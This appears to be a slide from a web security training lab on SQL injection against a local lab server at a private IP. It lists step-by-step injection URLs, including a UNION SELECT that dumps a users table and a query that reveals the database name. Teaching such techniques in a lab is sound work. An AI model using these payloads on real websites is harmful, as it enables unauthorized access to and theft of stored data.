

# Web attacks lab
1-SQL : Try to load a Course with ID 1
	 http://192.168.67.128/compiler/sql/id.php?id=1
2-SQL : Try with ID 2
	 http://192.168.67.128/compiler/sql/id.php?id=3-1
3-SQL: Combine with other tables:
	http://192.168.67.128/compiler/sql/id.php?id=1+union+Select+*+from+users
4-SQL: To retrieve the DB name:
	http://192.168.67.128/compiler/sql/id.php?id=1+union%20select+1,2,database()